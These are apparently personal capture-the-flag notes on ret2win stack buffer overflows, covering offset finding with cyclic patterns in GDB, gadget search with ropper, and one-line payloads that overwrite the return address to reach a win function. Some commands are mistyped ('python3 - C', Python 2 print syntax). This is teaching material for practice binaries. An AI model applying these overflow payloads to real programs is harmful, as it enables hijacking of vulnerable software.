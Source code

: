 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

```py
| Finding the offset using GDB for the return address |
- file <filename>
- info functions
- cyclic 100
- run and check the RIP register which is the instruction pointer
- cyclic -l <the four characters found>
- Find the return address, objdump, ghidra (disass <function name>)
For 64 bit ELF, take the first 4 bytes of RSP to find the offset, it works differently than 32 bit design.

python3 -c 'print("A"*offset+"return address")' > payload
./ret2win < payload
```
`RET2WIN with parameters`

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/28a224bb-a00c-42bd-80c2-ec9967cd919e)
```bash
ropper --file <filename> --search "pop rdi"
```

---

```py
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Control the EIP or RIP

Alternatively, inside gdb use pattern create 200
```



Find the offset we use the value in `RSP` register.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

#### Things to do in classic ret2win :

Use Ghidra and GDB. 

```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

